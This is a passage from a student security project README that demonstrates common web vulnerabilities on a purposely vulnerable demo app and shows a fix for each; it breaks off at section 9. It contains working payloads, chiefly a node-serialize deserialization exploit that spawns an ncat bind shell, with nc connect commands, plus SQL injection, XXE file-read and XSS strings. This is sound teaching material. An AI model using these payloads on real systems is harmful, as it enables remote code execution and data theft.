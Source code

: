 # CS467: Website Security Research Project

This project will explore the web vulnerabilities outlined in the article <a href="https://www.vpnmentor.com/blog/top-10-common-web-attacks/">Top 10 Common Web Attacks: The First Steps to Protect Your Website</a>. These vulnerabilities are categorized as follows:

* [Injection](#1-injection)
* [Broken Authentication](#2-broken-authentication)
* [Sensitive Data Exposure](#3-sensitive-data-exposure)
* [XML External Entities](#4-xml-external-entities)
* [Broken Access Control](#5-broken-access-control)
* [Security Misconfiguration](#6-security-misconfiguration)
* [Cross-Site Scripting](#7-cross-site-scripting)
* [Insecure Deserialization](#8-insecure-deserialization)
* [Using Components with Known Vulnerabilities](#9-using-components-with-known-vulnerabilities)
* [Insufficient Logging & Monitoring](#10-insufficient-logging--monitoring)

These vulnerabilities will be explored through a demonstration app, datapotato:
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_black.svg#gh-light-mode-only" width=50% height=50%>
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_white.svg#gh-dark-mode-only" width=50% height=50%>

# 1. Injection 
<details>
  <summary>
    Details
  </summary>
  
### Description

  |Source|Definition|
  |---|---|
  |Wikipedia|**Code injection** is the exploitation of a computer bug that is caused by processing invalid data|
  |OWASP|**Injection** is an attacker’s attempt to send data to an application in a way that will change the meaning of commands being sent to an interpreter|
  |IBM|This type of attack allows an attacker to **inject code** into a program or query or inject malware onto a computer in order to execute remote commands that can read or modify a database, or change data on a web site|
  
  These definitions are intentionally broad, as this concept appears in many environments. Our sources above list multiple subcategories of injection vulnerabilities:
  
  * Wikipedia: SQL injection, Cross-site scripting, Dynamic evaluation vulnerabilities, Object injection, Remote file injection, Format specifier injection, Shell injection
  * OWASP: SQL queries, LDAP queries, Operating system command interpreters, Any program invocation, XML documents, HTML documents, JSON structures, HTTP headers, File paths, URLs, A variety of expression languages
  * IBM: Blind SQL Injection, Blind XPath Injection, Buffer Overflow, Format String Attack, LDAP Injection, OS Commanding, SQL Injection, SSI Injection, XPath Injection
  
  ---
  
### Demonstration
  We'll focus on a specific flavor of injection vulnerability, SQLi (SQL injection).
  
  In this example, users are able to submit a request for data, for any individual user:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName1.PNG">
  
  This sends the following request to our SQL table:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1'
  ```
  
  Result:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  
  Now, let's inject a logical statement that our developers probably didn't intend to be used.  
  (This statement closes an open string, adds a logical OR, and comments out the rest of the SQL request body):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName2.PNG">
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1' or TRUE
  ```
  
  This returns all rows in our table, because TRUE always evaluates to TRUE:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  |user2|user2's data|
  |user3|user3's data|
  |[...]|[...]|
  
  You can try a live demo of this here (requires connection to OSU VPN):
  <a href="http://flip3.engr.oregonstate.edu:37773/injection#demonstration">[LINK TO WEB APP]</a>
  
  In this example, we've allowed the user to execute arbitrary SQL queries on our database. Our data is no longer secure or reliable. 
 
  ---  

### Remediation
  
  Remediation for injection vulnerabilities are specific to the context of the application. We will provide recommendations for the specific example above.
  
  OWASP advises vulnerabilities like the SQLi example above are failures of the **injection context**, specifically the SQL query. OWASP recommends the first defense in this context is escaping, in which we ensure data is treated like data, rather than an extension of the functionality or logic the query.
  
  MariaDB provides a method to bind data values to our query at the time it is executed, preventing the injection of additional commands.
  
  We'll convert our SQL query to a paramaterized query:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName=?
  ```
  
  This time, if you didn't enter a valid userName, you won't retrieve any results, since "user1' or TRUE; #" is not a valid user. This query is hardened against arbitrary SQL commands entered by our users.
 
  ---
  
### Citations: Injection
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Code_injection (accessed Jan 29, 2022).
  
  J. Williams. "Injection Theory". OWASP.  
  https://owasp.org/www-community/Injection_Theory (accessed Jan 29, 2022).
  
  "Injection Attacks." IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-injection-attacks (accessed Jan 29, 2022).
  
  "PREPARE Statement". MariaDB.  
  https://mariadb.com/kb/en/prepare-statement/ (accessed Feb 10, 2022)
</details>

# 2. Broken Authentication
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(now referred to as Identification and Authentication Failures) Confirmation of the user's identity, authentication, and session management is critical to protect against **authentication-related attacks**|
  |IBM| This type of attack targets and attempts to **exploit the authentication process** a web site uses to verify the identity of a user, service, or application|
  
  This is another broad category. There are many types of authentication in use. IBM divides these attacks into 3 categories:
  * Brute force
  * Insufficient authentication
  * Weak password recovery
  
  Our app won't implement a password recovery system, so we'll focus on the other two attacks.
  
  ---
  
### Demonstration
  The most basic attack in this category is brute force, either guessing credentials or using an automated process to gain access to restricted systems or data.
  
  We've set up an `/admin` route that allows direct read accesss for our web app's data. To access this route, you'll need to know the admin username an password.
  
  To make it easy, we'll pick one of the [OWASP Top 10000 Worst Passwords](https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt). Can you guess which one it is?
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/admin.PNG">
  
  If you brute-forced this answer and visit the [ADMIN page](http://flip3.engr.oregonstate.edu:37773/admin) (requires connection to OSU VPN), you'll see all our user data.
  
  ---
  
### Remediation
  
  There are multiple ways we can harden our app against this vulnerability.
  
  First, we'll change the password to something harder to guess. Because password strength recommendations vary widely, we'll combine recommendations from a few sources:
  
  |Source|Recommendation|
  |---|---|
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Minimum length of the passwords should be enforced by the application. Passwords shorter than 8 characters are considered to be weak
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Maximum password length should not be set too low, as it will prevent users from creating passphrases. A common maximum length is 64 characters [...] It is important to set a maximum password length to prevent long password Denial of Service attacks.|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A length of 15-50 characters|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A combination of at least two-character types from the following options: uppercase[A-Z], lowercase[a-z], number[0-9], and special characters. The valid non-alphabetic characters include the following characters hyphen (-), underscore (_), period (.), and special characters such as !@#$%&|
  
  We'll also use a password strength meter application like [zxcvbn](https://github.com/dropbox/zxcvbn) to ensure the password we pick is safe against brute force attacks. (See also: [interactive web implementation of zxcvbn](https://lowe.github.io/tryzxcvbn/))
  
  Now that we've got our strong password, we'll salt it and hash it using the [Crypto nodejs module](https://nodejs.org/api/crypto.html) before saving it in our database. This fixes two more vulnerabilities:
  
  Salting: This is a randomized string concatenated with the password before hashing, to ensure that if the hashing mechanism is compromised, an attacker can't automatically solve for all the other passwords in the database.
  
  Hashing: This increases the complexity of the plaintext password before saving it to our database, ensuring someone with access to the database can't read the plaintext version of the password.
  
  These changes are impemented on our user <code>superAdmin</code>, and will be implemented in the hardened web app.
  
  ---
  
### Citations: Broken Authentication
  "A07:2021 – Identification and Authentication Failures". OWASP top 10:2021.  
  https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/ (accessed Feb 10, 2022).
  
  "Authentication attacks". IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-authentication-attacks (accessed Feb 10, 2022).
  
  D. Whitelegg. "Scan your app to find and fix OWASP Top 10 - 2017 vulnerabilities". IBM Developer.  
  https://developer.ibm.com/tutorials/se-owasp-top10/ (accessed Feb 10, 2022).
  
  "10k-worst-passwords.txt". OWASP / passfault.  
  https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt (accessed Feb 10, 2022).

  "Authentication Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html (accessed Feb 12, 2022).
  
  "Password guidelines". Search in IBM Sterling Partner Engagement Manager.  
  https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines (accessed Feb 12, 2022).
  
  "zxcvbn". dropbox / zxcvbn.  
  https://github.com/dropbox/zxcvbn (accessed Feb 12, 2022).
  
  "demo". zxcvbn tests.  
  https://lowe.github.io/tryzxcvbn/ (accessed Feb 12, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html (accessed Feb 12, 2022).

  "How to use the crypto module". Node.js.  
  https://nodejs.org/en/knowledge/cryptography/how-to-use-crypto-module/ (accessed Feb 13, 2022).
 </details>
  
# 3. Sensitive Data Exposure
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(See "Cryptographic Failures")[...] the focus is on **failures related to cryptography** (or lack thereof) [...] (which) often lead to exposure of sensitive data"
  |vpnMentor|Secret data usually needs to be **protected with encryption** and other cryptographic algorithms|
  
  ---
  
### Demonstration
  
  Any endpoint that can access our user data will be able to see the userData column in plaintext. (Users on the OSU VPN can use the exploit in the [Broken Authentication](#2-broken-authentication) section to access this data.) 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/userData.PNG">
  
  ---
  
### Remediation
  
  The most direct route for us to fix this is to encrypt our users' data.
  
  Fortunately, the <code>crypto</code> nodejs module we're using to salt and hash our user passwords also includes <code>cipher</code> and <code>decipher</code> classes we can use to encrypt this part of our database.
  
  (OSU VPN users only) This utility is live on the [/admin route](http://flip3.engr.oregonstate.edu:37773/admin) and you can see a snapshot of the web app utility here.
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt1of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt2of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt3of3.png">
  
  ---
  
### Citations: Sensitive Data Exposure
  
  "A02:2021 – Cryptographic Failures". OWASP Top 10:2021.  
  https://owasp.org/Top10/A02_2021-Cryptographic_Failures/ (accessed Feb 13, 2022).
  
  Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.  
  https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Feb 13, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html#class-cipher (accessed Feb 16, 2022).
  
</details>

# 4. XML External Entities
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |OWASP|An **XML External Entity attack** is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.|
  |IBM| [Vulnerable software] could allow a remote attacker to obtain sensitive information, caused by an **XML External Entity Injection** (XXE) error when processing XML data. An attacker could declare an entity referencing the content of a local file to obtain sensitive information.|
  
  A basic XML file with a defined entity looks like this:
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar</foo>
  ```
  
  Here's how Firefox and Chrome render this XML:
  
  Firefox:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooFirefox.PNG">
  
  Chrome:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooChrome.PNG">
    
  ---
  
### Demonstration
  
  The issue at hand is that the [document type declaration](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd) can be configured to access internal or external references.
  
  External entities, such as ones that point to server resources, or malicious URLs, are our primary concern. Here are is an example of a potentially harmful XML request (from the [OWASP website](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).) This request could send an attacker information about critical system files:
  
  ```
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
  <foo>&xxe;</foo>
  ```
  
  Because many modern node libraries do not support expansion of external entities, your researchers were not able to find a library which sufficiently demonstrated this vulnerability compatible with our node setup. In lieu of a live demonstration, please consider the following well-documented examples:
  
  [XML Entity Expansion in NodeJS](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html)  
  [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)  
  
  ---
  
### Remediation
  
  Developers should consider all of their XML parsing dependencies carefully, and ensure any custom XML parsing implementations have external entity expansion off by default. 
  
  Popular npm XML parsing utilities such as [express-xml-bodyparser](https://www.npmjs.com/package/express-xml-bodyparser) will automatically prevent entities from being defined, by throwing an error if an unescaped ampersand is encountered. Here's what happens when we send an XML POST to our endpoint with an ampersand using this package:
  
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar;</foo>
  ```
  Returns <code>Error: Invalid character entity</code>
  
  In our hardened web app, we'll return a <code>400 BAD REQUEST</code> error if we receive a request of this type. This will limit the types of XML requests we can process, but it will ensure protection against this vulnerability. Try using an API like [Postman](https://www.postman.com/) to send your own XML request to the server.
  
  ---
  
### Citations: XML External Entities
  "XML External Entity (XXE) Processing". OWASP.  
  https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing (accessed Feb 20, 2022).
  
  "IT06733: A vulnerability in XML External Entity (XXE) processing could allow a remote attacker to obtain sensitive information.". IBM Support.  
  https://www.ibm.com/support/pages/apar/IT06733 (accessed Feb 20, 2022).
  
  "XML introduction". MDN Web Docs.  
  https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction (accessed Feb 20, 2022).
  
  "Load external DTDs (entity/entities) (local and remote) if a pref is set". Bugzilla.  
  https://bugzilla.mozilla.org/show_bug.cgi?id=22942 (accessed Feb 20, 2022).
  
  "express-xml-bodyparser". npmjs.com.  
  https://www.npmjs.com/package/express-xml-bodyparser (accessed Feb 20, 2022).
  
  "Prolog and Document Type Declaration". w3.org.  
  https://www.w3.org/TR/REC-xml/#sec-prolog-dtd (accessed Feb 20, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 20, 2022).
  
  "XML Entity Expansion in NodeJS". SecureFlag.  
  https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html (accessed Feb 23, 2022).
  
  "XML External Entity Prevention Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html (accessed Feb 23, 2022).
  
</details>

# 5. Broken Access Control
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|In the fields of physical security and information security, **access control** (AC) is the selective restriction of access to a place or other resource|
  |OWASP|**Access control** enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits|
  |IBM|**Access control** mechanisms determine which operations the user can or cannot do by comparing the user's identity to an access control list (ACL)|
  
  In our first 5 vulnerabilities, this category affects the most code. Every piece of data, endpoint, and access mechanism should be considered with respect to this topic.
  
  OWASP goes on to provide a [broad list of vulnerabilities](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) in this category:
  
  * Violation of the principle of least privilege or deny by default, where access should only be granted for particular capabilities, roles, or users, but is available to anyone.  
  * Bypassing access control checks by modifying the URL (parameter tampering or force browsing), internal application state, or the HTML page, or by using an attack tool modifying API requests.  
  * Permitting viewing or editing someone else's account, by providing its unique identifier (insecure direct object references)  
  * Accessing API with missing access controls for POST, PUT and DELETE.  
  * Elevation of privilege. Acting as a user without being logged in or acting as an admin when logged in as a user.  
  * Metadata manipulation, such as replaying or tampering with a JSON Web Token (JWT) access control token, or a cookie or hidden field manipulated to elevate privileges or abusing JWT invalidation.  
  * CORS misconfiguration allows API access from unauthorized/untrusted origins.  
  * Force browsing to authenticated pages as an unauthenticated user or to privileged pages as a standard user.  

  ---
  
### Demonstration
  
  Our app is currently vulnerable to two of the access control failures above: bypassing access control checks by modifying the URL and accessing the API with missing access controls.
  
  During development, we created a route (OSU VPN users only) [/adminTest](http://flip3.engr.oregonstate.edu:37773/adminTest) to test admin functionality. This page was created before we implemented Session authentication. However, we forgot to remove this route or remediate the access control on this page. Even though there is no link to this page on our site, if someone discovered this route they'd be able to access many of our admin utilities normally protected with userName/password authentication.
  
  The other access control failure can be demonstrated with any utility that can send an HTTP request. Here, we'll use [Postman](https://www.postman.com/). 
  
  Our web app will process any valid HTTP request sent to it without requiring authentication. Let's POST to [/admin](http://flip3.engr.oregonstate.edu:37773/admin) and use the admin utility to reset the database: 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/postToAdmin.png">
  
  We were able to do this because there's no access control on that route. All of our custom user data has been lost!  
  
  ---
  
### Remediation
  
  In our hardened app, we'll make to two changes to remediate these failures:
  
  1. The <code>/adminTest</code> route will be removed
  2. All reqest types sent to the <code>/admin</code> route will require the same Session authentication confirming the user that is signed in has admin credentials.
  
  Additional remediations we could take include:
  * Using more advanced authentication such as JWTs
  * Enforcing "least privilege" principles where certain utilities are only available to specific user groups
  * Increased logging
  * Disabling directory browsing
  
  ---
  
### Citations: Broken Access Control
  "A01:2021 – Broken Access Control". OWASP Top 10:2021.  
  https://owasp.org/Top10/A01_2021-Broken_Access_Control/ (accessed Feb 21, 2022).
  
  "Authentication versus access control". IBM Watson Content Analytics.  
  https://www.ibm.com/docs/en/wca/3.0.0?topic=security-authentication-versus-access-control (accessed Feb 21, 2022).
  
  "Access Control". Wikipedia.  
  https://en.wikipedia.org/wiki/Access_control (accessed Feb 21, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 21, 2022).
  
</details>

# 6. Security Misconfiguration
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|**Security Misconfiguration** can happen at any level of an application stack, including the network services, platform, web server, application server, database, frameworks, custom code, and pre-installed virtual machines, containers, or storage.|
  |The Hackerish|**Security Misconfiguration** happens when the responsible party fails to follow best practices when configuring an asset.  This asset can be an operating system, a web server, software running on a machine, etc. Security Misonfigurations don't affect web assets only.  Any component which requires a configuration is subject to this vulnerability.  This means network devices, hardware, email services, etc. can suffer from this vulnerability.|
  |Guardiacore|**Security Misonfiguration** is simply defined as failing to implement security controls for a server or web application, or implementing the security controls, but doing so with error.|
  
  ---
### Demonstration
  From the definitions, it is clear that **Security Misoncfiguration** affects more than just the web application, which in our case is the nodejs application, the libraries we are using, and our database.
  
  For the purposes of this demonstration, we'll focus on the Server itself, which in this case if the Oregon State flip3 server where our vulnerable web application is hosted.  More specificically we'll look at configuration of the ports and protocols.
  
  One of the tenets of good network security is to only open network ports that are necessary. However, because of the nature of the flip3 server, it is required to be fairly open, otherwise it would not be possible to host student web applications - including ours.
  
  To put in perspective how open the flip3 server is, I conducted an nmap scan:
  
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan1.png" alt="flip_scan1" height="50%" width="100%">
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan2.png" height="50%" width="100%">
  
  The simple nmap scan can provide an attacker a wealth of information, but more importantly, each open port/protocal provides an attacker a potential attack vector against the system or application.
  
  ---
### Remediation
  For obvious reasons, we do not have the privileges necessary to harden the flip3 server, however, we do have those privileges on our AWS instance.
  
  In our AWS instance we can control which ports/protocols are exposed through the use of **Security Groups** and **Network ACLs**.  For our purposes, we'll only use the Security Group.
  
  Each EC2 instance in our AWS Virtual Private Cloud (VPC) must have a security group associated with it.  A security group acts a firewall.  We can define a range of source IPs from the Internet that communicate with our EC2 instance, and we can define the ports on our EC2 instance that can be reached.
  
  We created the following rule:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_security_group.png" width="100%">
  
  This only exposes the TCP port 37773 to anyone on the Internet (0.0.0.0), significantly reducing the attack surface area of our system/application.
  
  Screenshot of an nmap scan before the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_before.png" width="100%">
  
  Screenshot of an nmap scan after the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_after.png" width="100%">
  
  As we can see, the information a potential attacker is able to obtain is limited, but more importantly our attack surface area is greatly reduced.
  
  ---
### Citations: Security Misconfiguration
  "Security Misconfiguration". OWASP.  
  https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration (accessed Feb 22, 2022).
  
  "Security Misconfiguration Explained". The Hackerish.  
  https://thehackerish.com/owasp-security-misconfiguration-explained/ (accessed Feb 19, 2022).
  
  "What is Security Configuration and How to Avoid It" Guardiacore.  
  https://www.guardicore.com/blog/understanding-and-avoiding-security-misconfiguration/ (accessed Feb 19, 2022).
</details>

# 7. Cross-Site Scripting
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|**XSS** is a type of security vulnerability that can be found in some web application. XSS attacks enable attackers to inject **client-side scripts** into web pages viewed by other users.|
  |OWASP|**XSS** attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.|
  |IBM<|**XSS** is a computer securit vulnerability that allows malicious attackers to inject client-side script into web pages viewed by other users.|

  In summary, XSS is an attack on vulnerable web applications that allows a malicious actor to inject client-side script, e.g. javascript, into web pages.
                
  ---
### Demonstration
  In this first example, we will start off with benign input. Here's what users of the web app will see when they type **Hello World!** and select "Submit" in this example.
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssHelloWorld.png">
    
  This posts the following to our web application, which is then rendered by our express handlebars templating engine.

  ```
  req.body.userInput
  ```
    
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssDemonstrationResult.png">
    
  Now we'll inject a script into the web app, something the developers probably didn't intend to be used.
    
  Here's what users of the app will see when they type **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
                
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScript.png">
  
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScriptResult.png">
  
  In this example, we've allowed the user to inject a client-side script into our web application.
  
  ---
### Remediation
  There many methods to remediate XSS vulnerabilities. Most techniques revolve around sanitizing user input.
        
  Our web application is succeptible to XSS because the handlebars engine renders user provided input exactly as written.

  Specifically, the vulnerable piece of code in our handlebars template is:

  ```
  {{{input}}}
  ```

  Use of the triple brackets will render all user input exactly as written.

  We can prevent script injection by using double brackets as so:

  ```
  {{input}}
  ```

  Users can again attempt to inject the XSS script again into our web application:

  **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssRemediation.png">
  
  Use of double brackets in handlebars escapes special characters such as '&lt;' and '&gt;', which are often used in XSS attacks.
  
  ---
### Citations: Cross-Site Scripting
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Cross-site_scripting (accessed Feb 14, 2022).  
  
  KirstenS. "Cross Site Scripting (XSS)". OWASP.  
  https://owasp.org/www-community/attacks/xss/ (accessed Jan 29, 2022).  
  
  "Cross Site Scripting (XSS) Filter." IBM.  
  https://www.ibm.com/docs/en/sc-and-ds/8.2.0?topic=manager-cross-site-scripting-xss-filters (accessed Feb 15, 2022).  
  
  "Expressions." Handlebars Online User Guide.  
  https://handlebarsjs.com/guide/expressions.html (accessed Feb 10, 2022).
  
</details>

# 8. Insecure Deserialization
<details>
  <summary>
    Details
  </summary>
  
### Description
  In order to understand what **Insecure Deserialization** is, we must first define **serialization.**
  
  Wikipedia defines **serialization** as the process of translating a data structure or object state into a format that can be stored (e.g. in a file or memory buffer) or transmitted (e.g. over a network) and reconstructed later (possibly in a different computer envrinoment). When the resulting series of bits is re-read according to the serialization format, it can be used to create a semantically identical clone of the original object.
  
  |Source|Definition|
  |---|---|
  |Search Security|**Inseucre Deserialization** is a vulnerability in which an untrusted or unknown data is used to either inflict a DoS, execute code, bypass authentication or further abuse logic behind the application. **Serialization** is the proces that converts an object to a format that can be later restored. **Deserialization** is the opposing process which takes data from a file, stream or network and rebuilds it into an object.|
  |Portswigger|**Insecure Deserialization** is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized object in order to pass harmful data into the application code.|
  
  ---
### Demonstration
  Our web application makes use of the node package **"node-serialize"** to serialize and deserialize objects.
  
  In this first example, we will start off with benign input. We will serialize a simple JSON object and then deserialize it. Type:
  
  ```
  {test:123}
  ```
  
  and select "Submit". Here's what that looks like in our [web app (OSU VPN users only)](http://flip3.engr.oregonstate.edu:37773/insecureDeserialization):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization1.PNG">
  
  We'll now deserialize the serialized object, which should return the original input <code>{test:123}</code>. Here's the result from our web app.

  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization2.PNG">
  
  We'll now utlize a more nefarious input which will allow us to create a BIND Shell on our server. In the web app, type in the following:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  In a command line terminal, preferably linux, connect to the bind shell.
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  The vulnerable piece of code in our web application is:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var deserialized = serialize.unserialize(obj)
  ```
  
  We are deserializing unsanitized user input.
  
  The issue lies in the fact that the node-serialize package allows for the serialization and deserialization of JSON objects which have functions defined.
  
  In nefarious payload, we created a JSON object with the key **"rce"** which had function definend as its value.
  
  According to [Aleski Turin](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/), a serialized object with a function defined has the following form:
  
  ```
  {"anything_here":"_$$ND_FUNC$$_function (){сonsole.log(1)}"}
  ```
  
  Anything after the special tag <code>$$ND_FUNC$$</code> is evaluated in the eval function.  This is what allows malicious users to execute arbitrary code on our web application.
  
  ---
### Remediation
  We can mitigate/prevent this vulnerability from being exploited by sanitizing user input.
  
  In our sanitized code, we make use of the <code>JSON.stringify</code> function:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var sanitized = JSON.stringify(obj)
  var deserialized = serialize.unserialize(sanitized)
  ```
  
  If we attempt to enter the malicious code again, and try to connect to the BIND shell, it will fail.
  
  If you enter the following code again in our sanitized form, here's what you'll see:
  
  ><img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization3.PNG">
  
  Our web application can now safely deserialize the user input:
  
  ```
  {test:123}
  ```
  
  If you attempt to connect to the BIND shell, it no longer works. Try it:
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  ---
### Citations: Insecure Deserialization
  "Deserialization vulnerabilities: attacking deserialization in JS" Acunetix.  
  https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/ (accessed Feb 20, 2022).
  
  "Exploiting Node.js deserialization bug for Remote Code Execution". OPSECX.  
  https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ (accessed Jan 29, 2022).
  
  "Serialization" Wikipedia.  
  https://en.wikipedia.org/wiki/Serialization (accessed Feb 15, 2022).
  
  "What is Insecure Deserialization." Acunetix.  
  https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/ (accessed Feb 10, 2022).
</details>

# 9. Using Components with Known Vulnerabilities
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
